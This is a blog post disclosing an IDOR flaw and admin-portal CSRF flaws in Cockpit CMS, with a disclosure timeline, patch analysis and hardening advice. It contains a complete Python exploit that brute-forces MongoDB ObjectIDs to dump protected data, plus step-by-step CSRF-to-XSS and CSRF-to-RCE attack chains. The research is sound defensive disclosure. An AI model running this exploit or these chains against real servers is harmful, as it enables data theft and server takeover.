 # Overview

So I got bored again and decided to look at another open-source CMS project in the little hobby hacking time I had outside of work. The project that caught my attention was Cockpit CMS, a headless CMS that is written in PHP. I found a fairly cool Insecure Direct Object Reference (IDOR) vulnerability and CSRF issues everywhere on the admin portal that could be exploited to get RCE.

Let's just jump right in and skip my nonsensical preamble.

**Table of Contents**

[TOC]

---

# Vulnerabilities Disclosure Timeline

| Time | Event |
| ---- | ----- |
| 2023/05/29 | Reported the IDOR vulnerability to Cockpit CMS |
| 2023/05/31 | Artur from Cockpit CMS added patch to dev release. |
| 2023/06/08 | Reported the CSRF vulnerabilities to Cockpit CMS |
| 2023/06/08 | Artur added CSRF check for administrator portal API (7 hours after initial report). |
| 2023/06/21 | Cockpit CMS v2.6.0 was released with the patches |
| 2023/06/30 | Vulnerability disclosure was released |

![](./images/artur-patching-vulns.gif)

---

# What is Cockpit CMS?

Before we dig into the more technical details, I will need to quickly explain what is Cockpit CMS and a high level overview about how it works. Cockpit CMS is fairly popular headless CMS for building REST and GraphQL APIs. It is a nice simple CMS that makes backend web API development extremely easy. It is also built for NoSQL database management systems such as MongoDB making the CMS horizontally scalable.

However, this opens up the CMS to the possibility of [NoSQL injection attacks](https://github.com/0z09e/CVE-2020-35846) that resulted in severe vulnerabilities in the past. In addition, the CMS is written in PHP which is my personal least favourite language for web development (*this is a personal opinion and a joke*).

So now you have a basic idea about Cockpit CMS, let's get into the fun part.

---

# Exploiting Relational Mappings in the Content API

Relational mappings are great for storing complex data structures on databases. However, as I pointed out in my [Strapi vulnerability disclosures early this year](https://www.ghostccamm.com/blog/multi_strapi_vulns/) they pose a significant threat of being exploited to leak sensitive data.

Looking at Cockpit CMS, I discovered that it had Insecure Direct Object Reference (IDOR) vulnerability by exploiting relational mappings when populating fields. It is a pretty cool finding, so enjoy the details.

## The Issue of Populating Relational Mappings

All actions for content besides files are handled by an API called `Content` (surprising name choice) and the source code is located in the [`modules/Content` folder](https://github.com/Cockpit-HQ/Cockpit/tree/2.5.2/modules/Content). Of particular interest to me was how the relational mappings were populated in the [`populate` function in `bootstrap.php`](https://github.com/Cockpit-HQ/Cockpit/blob/2.5.2/modules/Content/bootstrap.php#L409) (snippet of code below).

```php
if (isset($v['_id'], $v['_model'])) {

    $model = $v['_model'];
    $array[$k] = $this->_resolveContentRef($v['_model'], (string)$v['_id'], $process);

    if ($array[$k]) {
        $array[$k] = $this->populate($array[$k], $maxlevel, ($level + 1), $process);
        $array[$k]['_model'] = $model;
    }
}
```

Explaining in english the above code, if the data that is being populated has an attribute named `_id` and `_model` then Cockpit CMS would resolve the mapping and fetch the corresponding data. The massive problem here is that **there is no validation if the querying user is authorised to access that data**.

Now this would be an interesting finding if I could find a way to inject in the `_model` and `_id` attributes into this populate function. So I decided to start up a test Cockpit CMS server on my local VM and analyse how data is handled on the CMS.

To do this, I created two separate Collections and configured one of the fields to be a "Link" to an entry in the other collection.

![](./images/testlink.png)

Then I simply created a new object using the Admin UI and took a look at the request.

![](./images/testlink-request.png)

*Hmmmmm*

That is very interesting that in the user's JSON request the `_model` and `_id` values are set. This lead to my next question: 

*Does the server actually validate the type of link that the user sends is the same as the one configured on the model?*

To test this theory, I simply created another collection named "Secrets", created a test item and just resent the above request again.

![](./images/testlink-test1.png)

*Hmmmmmmmmmmm*

Now this is getting intriguing. Cockpit CMS does not validate if a relational mapping is even mapping to the configured type for the field! Plus reading the code, I knew that the user's authorisation is not validated for this mapping so I have got a vulnerability here. Saying that, at this point it was only a low severity finding since it depended on a user having write privileges to a collection with a relational field...

*Or did it?*

![](./images/hmmmm.gif)

Now this is where my initial ramblings about Cockpit CMS becomes important. Cockpit CMS uses a NoSQL database management system that stores entries in a BSON structure (for simplicity just think of JSON documents). This means that if the CMS **does not even validate the type of attributes in a user's JSON request then you could modify the BSON structure that is stored on the database**.

To test this, I created a `Posts` collection that had two fields that were **not** the "Content Link" type and enabled public read and write access to the collection.

![](./images/posts-collection.png)

Now as an unauthenticated user I tried to create a Post, but manipulate the type of the "Title" field into a relational link by injecting the `_id` and `_model` attribute.

![](./images/setting-the-payload.png)

The following screenshot confirms my suspicion that Cockpit CMS was not validating the types of inputs within the JSON request and I was able to modify the "Title" attribute to a JSON structure.

![](./images/idor-conf1.png)

Now let the magic begin when I whack in `?populate=1` into the URL to trigger the vulnerable populate function.

![](./images/idor-conf2.png)

![](./images/bam-peanut-butter-and-jam.gif)

*However, I am not done yet.*

The only issue is that in order to exploit this IDOR vulnerability, you need the name of the model to dump and the Object ID of the data to dump. Now the model name could be guessable, but that Object ID is not and *appears* to be random.

*Or is it...*

---

## MongoDB Object IDs are Not Secure

The thing about MongoDB Object IDs is that although that they look like they are *'randomly'* generated, they are not secure and under certain circumstances can be guessable. Well tbh I got conflicting details [from this stack overflow post](https://stackoverflow.com/questions/15435530/using-mongodb-generated-ids-as-secret-data-eg-oauth-tokens), so let's dig into it further.

Looking at [MonogoDB's documentation about Object IDs](https://www.mongodb.com/docs/manual/reference/method/ObjectId/), an Object ID is 12 bytes in the following structure.

![](./images/mongodb-docs-objectid.png)

Now the timestamp and incremental counter can be easily bruteforced, but what about the 5-bytes with the 'random value' that is 'unique to the machine and process'? Well turns out if MongoDB server is under a high load or within a short time period then the machine and process ID remain consistent! [Someone has even made a tool for attempting to predict MongoDB Object IDs based on an initial ID](https://github.com/andresriancho/mongo-objectid-predict).

*Right it looks like I have everything now to make a cool POC.*

---

## POC

So my thought process for the POC was.

1. Create an item to get the Object ID to seed [this MongoDB Object ID predictor](https://github.com/andresriancho/mongo-objectid-predict).
2. Generate a list of possible MongoDB Object IDs that are likely within the minute.
3. Spray and pray the exploit.

Below was the POC I sent the developers at Cockpit CMS along with the following GIF.

<details><summary><b><code>cockpit-blaster.py</code></b></summary>
```python
import argparse, json, requests
import tqdm
from mongo_objectid_predict import predict
from typing import Optional
from colorama import Fore, Style

def parse_args() -> argparse.Namespace:
    parser = argparse.ArgumentParser(formatter_class=argparse.ArgumentDefaultsHelpFormatter)

    parser.add_argument(
        'target',
        help='URL to the target API endpoint. Eg. http://127.0.0.1/api/content/Items',
    )

    parser.add_argument(
        'payload_template',
        help="JSON payload for creating an item."
    )

    parser.add_argument(
        '-p', '--payload-key',
        help='The key in the payload_template to replace with payloads.',
        required=True
    )

    parser.add_argument(
        '-k', '--api-key',
        help='API key if required to access the API endpoint'
    )

    parser.add_argument(
        '-m', '--model',
        help='The name of the model that you want to dump items for that you cannot directly access.',
        required=True
    )

    parser.add_argument(
        '--counter-diff',
        help='Amount to bruteforce in the 3-byte counter in the MongoDB ObjectID',
        default=120,
        type=int
    )

    parser.add_argument(
        '--per-counter',
        help='How many seconds to bruteforce the ObjectID',
        default=1800,
        type=int
    )

    return parser.parse_args()

def create_item(target: str, template: dict, payload_key: str, payload_value: str, api_key: Optional[str]=None) -> requests.Response:
    template["data"][payload_key] = payload_value

    if api_key is None:
        return requests.post(
            target,
            json=template
        )

    return requests.post(
        target,
        json=template,
        headers={"api-key": api_key}
    )

def attempt_to_dump_obj(target: str, template: dict, model_name: str, id: str, payload_key: str, api_key: Optional[str]=None) -> bool:
    obj_ref = {"_model": model_name, "_id": id}
    r = create_item(target, template, payload_key, obj_ref, api_key=api_key)
    new_id = r.json()["_id"]
    
    if api_key is None:
        r = requests.get(
            target,
            params={
                "filter": json.dumps({"_id":new_id}),
                "populate":1
            }
        )
    else:
        r = requests.get(
            target,
            params={
                "filter": json.dumps({"_id":new_id}),
                "populate":1
            },
            headers={"api-key": api_key}
        )

    r_json = r.json()
    
    if "error" in r_json:
        return False

    if r_json[payload_key]:
        print()
        print(f"{Fore.GREEN}Found item for {Style.BRIGHT}{Fore.CYAN}{model_name} {Style.RESET_ALL}{Fore.GREEN}model!{Style.RESET_ALL}")
        print(f"{Style.BRIGHT}{Fore.RED}{json.dumps(r_json[payload_key], indent=4)}{Style.RESET_ALL}")
        print()
        return True
    return False
    

def main(args: argparse.Namespace):
    target = args.target
    payload_template = json.loads(args.payload_template)
    api_key = args.api_key
    target_model = args.model
    payload_key = args.payload_key
    counter_diff = args.counter_diff
    per_counter = args.per_counter

    # Get initial ID
    r = create_item(target, payload_template, payload_key, 'Test', api_key=api_key)
    base_id: str = r.json()["_id"]

    # Search around the base ID to dump items from the other model
    for test_id in tqdm.tqdm(predict(base_id, backward=True, counter_diff=counter_diff, per_counter=per_counter)):
        if attempt_to_dump_obj(target, payload_template, target_model, test_id, payload_key, api_key=api_key):
            break


if __name__ == "__main__":
    args = parse_args()
    main(args)
```

</details>

![](./images/cockpit-idor-dump.gif)

---

## How Cockpit CMS Patched This Vulnerability

Artur from Cockpit CMS released a patch version to test **two days after my disclosure** (*one of the fastest patches I have seen*) with the following change to the `populate` function.

![](./images/idor-patch.png)

Although this code change *does patch the vulnerability*, there is still an edge case that could occur to make this exploited. Notice that if `isset($proccess['user']['role'])` is not set then the `allowedModels` verification is not executed and the vulnerability is still exploitable.

*So when could this scenario could occur?*

Looking into how users are created, an admin creates on the administrator portal. However, you can create an account **without a role assigned** as shown in the following JSON request.

![](./images/norole1.png)

Results in the `role` **not** being set for the account.

![](./images/norole2.png)

So an account can be created without a role assigned to it, but the following lines of code prevent exploitation if you are using the Cockpit CMS api since the Content API validates the role's permissions first.

![](./images/cockpit-block.png)

The only scenario that I could think of where this was exploitable was if a developer implemented their own code that included Cockpit's bootstrap code.

I sent the following screenshot demonstrating that if the role was not being validated (either by custom code or a potential future vulnerability), then this vulnerability could be exploitable again.

![](./images/idor-bypass.png)

I explained to Artur this scenario where the protection could be bypassed, and below was his response.

> Cockpit itself can also be used as library by just including the bootstrap file. So we have cases where the modules api is used eg for migration scripts or other web apps. Therefore we can’t require a user role here. It would overcomplicate things. But I have it on the radar for future development. Thank you for that.

So beware if your web application is vulnerable to this scenario. It is extremely unlikely to occur, but it could happen.

It is also important to point that although the unauthorised access to models by exploiting the `populate` function was *patched*, the **verifying the types of inputs to expected the type for a field has not been implemented**. This means you can still do things such as inject a JSON object in a text field that could lead to future vulnerabilities.

---

# CSRF Everywhere...

After finding the IDOR vulnerability, I decided to continue looking at Cockpit CMS a bit further. I continued just interacting with the admin portal, looking through the requests when I noticed something **very important** was missing when I tried uploading a file using the **Assets** API...

![](./images/where-is-csrf.png)

*Where on earth is the CSRF token validation for this file upload?*

![](./images/gorilla-stare.gif)

I started looking through the documentation to see if I accidentally misconfigured my Cockpit CMS server. Unfortunately, it turned out that the admin portal was never given the CSRF protection unlike the general API and **every admin API action was vulnerable to CSRF**!

Well that isn't great at all, especially considering that there is multiple methods to exploit these CSRF vulnerabilities to upload dangerous files:

- **Assets API**: The Assets API is the recommended admin API for managing files on Cockpit CMS that somewhat restricts what type of files can be uploaded. However, on a default installation any file type except `.php`, `.phar` and `.phtml` files.

- **Finder API**: The Finder API is specifically just for administrator users that are assigned the `admin` role. It consists of a tonne of dangerous functions for **directly interacting with the file system** and contains *'features'* such as `writeFile` for **writing into PHP files**. These functions cannot be disabled and can be easily exploited on a default installation of Cockpit CMS. By default, it also allows uploading **\*.php**, so it has RCE as a feature.

Those are some very dangerous default settings for a CMS. However, there are configuration settings that can be enabled that should of mitigated the likelihood of exploiting file upload vulnerabilities.

*Let's harden my test server and see if I can still exploit these vulnerabilities.*

---

## Let's Play a Game

So I decided to play a game and harden my configuration of Cockpit CMS. So the following rules I have set for myself looking into this issue:

1. Only allow uploading file extensions of image file types (eg. `.png`, `.jpg`, `.jpeg` and `.svg`).

2. I am not allowed to use the `writeFile` action in the Finder API to overwrite a PHP file to get RCE.

I can restrict the allowed extensions with the following configuration settings.

```php
/**
 * Only allow files with the 'png, jpg, jpeg, svg' extension to be uploaded
 */

// Assets API
'assets' => [
    'allowed_uploads' => 'png, jpg, jpeg, svg'
],

// Finder API
'finder.allowed_uploads' => 'png, jpg, jpeg, svg',
```

However, I could not disable the `writeFile` action for the Finder API so I just deleted the function from `modules/Finder/Controller/Finder.php` on my server.

![](./images/after-saw.gif)

---

## CSRF to XSS

First I will look at the Assets API and see if I can leverage CSRF on Cockpit CMS to achieve XSS. Now some of you might of noticed I slightly *cheated* with my rule and allowed uploading SVG files, that can be used to [run arbitrary JavaScript when a victim views the file](https://developer.mozilla.org/en-US/docs/Web/SVG). Well it isn't cheating because I made up the game so I can chose my own rules.

Anyway, it *should of not mattered* since Cockpit CMS sanitised SVG files using `\SVGSanitizer::clean` in the following code from `modules/Assets/bootstrap.php`.

```php
...

$_file  = $this->app->path('#tmp:').'/'.$files['name'][$i];
$_isAllowed = $allowed === true ? true : preg_match("/\.({$allowed})$/i", $_file);
$_sizeAllowed = $max_size ? filesize($files['tmp_name'][$i]) < $max_size : true;

// prevent uploading php files
if ($_isAllowed && in_array(strtolower(pathinfo($_file, PATHINFO_EXTENSION)), ['php', 'phar', 'phtml'])) {
    $_isAllowed = false;
}

if (!$files['error'][$i] && $_isAllowed && $_sizeAllowed && move_uploaded_file($files['tmp_name'][$i], $_file)) {

    $_files[]   = $_file;
    $uploaded[] = $files['name'][$i];

    if (\preg_match('/\.(svg|xml)$/i', $_file)) {
        file_put_contents($_file, \SVGSanitizer::clean(\file_get_contents($_file)));
    }

} else {
    $failed[] = $files['name'][$i];
}

...
```

However, there is a mistake in the order of operations during this sanitisation process. Firstly, the file is **moved from the temporary file upload directory set by PHP to `storage/tmp` on the server** (code `move_uploaded_file($files['tmp_name'][$i], $_file)`). Then it is sanitised using `\SVGSanitizer::clean`.

This causes a *very very very small* time window where the uploaded SVG file can be accessed from `/storage/tmp` on the website and `\SVGSanitizer::clean` has not completed sanitising the file. You can increase this time window by simply uploading a larger SVG file.

Perfect! I now have a self XSS vulnerability that I can combine with the CSRF vulnerability to build an exploit.

### CSRF to XSS POC

The process of exploitation is:

1. When a victim user submits form on your malicious external website, first open a new tab to the malicious HTML code for step 2 and then upload a large SVG file with your JavaScript payload using the Asset API.

2. On the second tab that is opened, wait for a little bit then *yeet* the victim straight into uploaded SVG file in `/storage/tmp` before it is sanitised.

The following POC GIF demonstrates doing this CSRF to XSS exploit and stealing the victim user's session cookie.


![](./images/cockpit-csrf-xss.gif)

---

## CSRF to RCE

So I had achieved leveraging the CSRF vulnerability to get XSS, but *I want some of that juicy RCE*. 

So next I decided switch to the Finder API and figure out a method to achieve RCE while restricting file uploads to only image file extensions and not allowing the use of `writeFile`.

Once again I *slightly* cheated and did not disallow using the `unzip` Finder API action. I will go with the excuse that unzipping a file does not appear to be obviously dangerous unlike modifying content files like `writeFile` did. The source code for `unzip` is shown below from `modules/Finder/Controller/Finder.php`.

```php
protected function unzip() {

$path    = $this->_getPathParameter();

if (!$path) return false;

$return  = ['success' => false];
$zip     = $this->param('zip', false);

if ($path && $zip) {

    $path =  $this->root.'/'.trim($path, '/');
    $zip  =  $this->root.'/'.trim($zip, '/');

    $za = new \ZipArchive;

    if ($za->open($zip)) {

        if ($za->extractTo($path)) {
            $return = ['success' => true];
        }

        $za->close();
    }
}

return json_encode($return);
}
```

The `unzip` function does not **validate if the file being extracted is even a `.zip` file**, meaning that you can just use this Finder API action to extract any `.php` file from a ZIP archive!

However, the Finder API uses JSON requests that would make this not vulnerable to CSRF :/.

![](./images/finder-json.png)

*Did I give up there?* **NOPE!**

I simply attempted the same request, but changed the `Content-Type` to `application/x-www-form-urlencoded`.

![](./images/json-csrf-bypass.png)

Perfect! Since `application/x-www-form-urlencoded` can be used instead of `application/json` it means that I could still exploit the CSRF vulnerability.

*Let's get into that POC since that is what everyone has probably skipped to.*

### CSRF to RCE POC

So the process of exploitation is fairly simple:

1. When a victim admin user browsers your malicious external website and submits a form, first open a separate tab for the payload in step 2 then upload a ZIP file named `exploit.png` that contains your `.php` payload.

2. On the second tab, wait for a bit then auto submit a form to `unzip` the uploaded `exploit.png`.

3. Visit the extracted `.php` payload to get unauthenticated RCE.

4. *?Profit?*

The following POC GIF demonstrates getting RCE by targetting a Cockpit administrator user.

![](./images/cockpit-csrf-rce.gif)

---

## How Cockpit CMS Patched This Vulnerability

The interesting thing was that Cockpit CMS did have a mechanism for CSRF token validation, just it was not implemented for the admin API. Artur added the CSRF token validation for the admin API actions within a day after my initial report ([Github commit](https://github.com/Cockpit-HQ/Cockpit/commit/ef00d03ea1d50921976c3f163fc89bce6e813e9a)). However, I do still have some concerns with how Artur patched these vulnerabilities.

Firstly, the CSRF token validation method requires adding `$this->hasValidCsrfToken(true);` to each route for the internal API. This means that this vulnerability could be reintroduced again for a route if the `$this->hasValidCsrfToken(true);` was forgotten.

Secondly, the Finder API is basically **file upload to RCE** as a feature for Cockpit CMS administrators. I brought this up to Artur and he agreed that it is a powerful feature and that's why only administrator users have permission to use it. He did say just 'delete the finder folder in `/modules` if you're uncomfortable' (which I personally recommend for hardening your Cockpit CMS server).

Finally, the race condition issue that I exploited in the SVG file upload process using the Assets API is still not patched. However, since the CSRF vulnerability has been patched this is now only a self-XSS.

---

# A Note About Secure by Default and Documenting Configuration Settings

One of my major concerns going through Cockpit CMS was that the default settings were **insecure** and could potentially lead to achieving **XSS or RCE** (as I demonstrated above even with *hardened* settings). Normally I don't report insecure defaults, since the responsibility of setting secure configuration settings is on the user.

However, the documentation should at least highlight best practices or important configuration settings to inform users about how to secure their servers. [Cockpit CMS's official documentation does not have any of these recommendations](https://getcockpit.com/documentation/core/quickstart/configuration), and only provided a basic configuration file (which enables uploading dangerous file types using the Assets and Finder API)

![](./images/cockpit-docs.png)

The only *'complete'* documentation about configuring Cockpit CMS I could find was on [this gitlab website by Zeraton](https://zeraton.gitlab.io/cockpit-docs/guide/basics/configuration.html#introduction) that was last updated in **2019**. Therefore, I felt obliged to document some configuration settings for hardening your Cockpit CMS servers.

## Setting an Allow List for Assets API Uploads

As previously mentioned, the Assets API is the *secure* and *recommended* alternative for file uploads on Cockpit CMS. However, by default it allows uploading any file with the only exception that `.php`, `.phar` and `.phtml` file extensions not being allowed. Instead, an allow list should be configured to restrict the allowed file extensions on Cockpit CMS. For an example, the following configuration setting only allows the upload of `.png`, `.jpg` and `.jpeg` file extensions using the Assets API.

*Put in `config/config.php`*
```php
    /**
     * Only allow files with the 'png, jpg, jpeg, svg' extension to be uploaded
     */

    // Assets API
    'assets' => [
        'allowed_uploads' => 'png, jpg, jpeg'
    ],
```

## How to secure the Finder API?

The Finder API can be easily exploited by a Cockpit CMS administrator to achieve RCE. I have also demonstrated in my above ramblings that even the `finder.allowed_uploads` setting cannot prevent RCE, since it can be bypassed using **dangerous** built in actions such as `writeFile` or `unzip`.

If you are really want to harden your Cockpit CMS website, I recommend just deleting the `modules/Finder` folder.

![](./images/rmrf-Finder.gif)

Artur from Cockpit CMS is fully aware of the security issues of the Finder API and also recommended deleting the `modules/Finder` in my communication with him.

## Change Your Application Security Keys!

If you do not create a custom `config/config.php` configuration file and use a secure **`sec-key`**, then your application will be using a default secret key that is hardcoded into the application! You can find these default application secret keys by searching for `sec-key` in Cockpit CMS.

![](./images/default-key.png)

## Harden PHP Session Cookies

Cockpit CMS uses the builtin PHP session cookie for session authentication on the administrator portal. However, you need to secure your PHP sessions by properly configuring your PHP ini configuration file. For an example, if `session.cookie_httponly` is not set then JavaScript code can access a user's session cookie and makes XSS attacks significantly easier. [PHP has additional documentation about recommended settings for securing session cookies](https://www.php.net/manual/en/session.security.ini.php).

---

# Conclusion

To conclude, I do want to give a huge shout out to Artur at Cockpit CMS for quickly responding and patching both of these vulnerabilities. So far, he has the record for the fastest patch I have seen for an open source project.

Saying that, from my brief vulnerability research into Cockpit CMS there can be more done to improve the security of the CMS. Both of the patches were effective at remediating the **root cause** for the vulnerabilities I reported. However, the patches were not complete since they do not prevent circumstantial edge cases or fix the issues of input validation that enabled these vulnerabilities in the first place. At the time of writing this article, there was no official documentation about hardening Cockpit CMS as well.

I wish I had more time to properly look through Cockpit CMS and conduct a more thorough review. Saying that, I do hope this article inspires other developers and security researchers to help Artur out with securing CMS.